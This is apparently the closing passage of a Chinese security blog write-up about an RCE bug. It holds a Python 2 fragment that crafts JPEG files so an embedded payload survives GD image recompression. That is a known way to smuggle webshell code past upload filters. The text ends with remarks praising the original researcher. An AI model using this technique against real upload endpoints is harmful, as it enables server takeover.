 ```
							test = gd.image('exploit-jpg/exploit-%d.jpg'%q)
							final_jpg = StringIO('')
							test.writeJpeg(final_jpg,q)
							final_raw = final_jpg.getvalue()
							# does it contain our payload ?
							if p in final_raw:
								# Yay !
								print '[i] Jpeg quality %d ... DONE'%q
								done = True
								break
						except IOError,e:
							pass
					else:
						break
			if not done:
				# payload not found, we remove the file
				os.unlink('exploit-jpg/exploit-%d.jpg'%q)
			else:		
				break

```
# 结语
这次的RCE在思路上也许不如前一篇，但是却带来一个黑科技，虽然我看不懂，但还是希望能有大佬将那一篇文章给翻译出来，分享出来

只能说作者博闻强识，能很准确的在脑海中搜索到关键信息，就如同XSS三连弹的第一弹一样，都是靠着丰富的知识挖掘到了漏洞，同时，还有一个就是我所认为的**旁站思想**,个人感觉也是非常好的一个思路
